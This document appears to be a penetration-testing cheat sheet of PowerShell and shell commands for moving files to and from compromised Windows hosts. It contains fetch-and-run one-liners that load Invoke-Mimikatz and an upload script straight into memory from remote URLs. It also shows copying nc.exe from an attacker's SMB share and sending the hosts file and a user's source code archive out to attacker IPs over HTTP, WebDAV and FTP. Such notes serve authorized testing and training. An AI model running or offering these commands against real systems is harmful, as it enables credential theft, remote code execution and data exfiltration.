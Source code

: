 ## Downloads

### PowerShell DownloadFile Method

```powershell
## Downloading from HTTP/HTTPS Server
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

## Invoking file directly w/o downloading file
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### PowerShell Invoke-WebRequest

```bash
## PowerShell 3.0 onwards
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### SMB Downloads

```bash
## Create SMB server for download
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
net use n: \\192.168.220.133\share /user:test test

## Copy file from remote SMB established
copy \\192.168.220.133\share\nc.exe
```

### FTP Downloads

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

## Uploads

### PowerShell Web Upload

```powershell
## Create uploading server
pip3 install uploadserver
python3 -m uploadserver

## Normal file upload
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

## Base64 file upload
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### SMB Uploads

WebDAV extension of HTTP/HTTPS - Enables webserver to behave like a fileserver
```bash
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
## DavWWWRoot is a special keyword recognized by the Windows Shell, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
dir \\192.168.49.128\DavWWWRoot

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

### FTP Uploads

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## Encoding/Decoding

### Base64 Encoding

```powershell
## Encoding file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

## Specific text encoding
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Text))
```

### Base64 Decoding

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\<filetosave>", [Convert]::FromBase64String("<base64-string>"))
```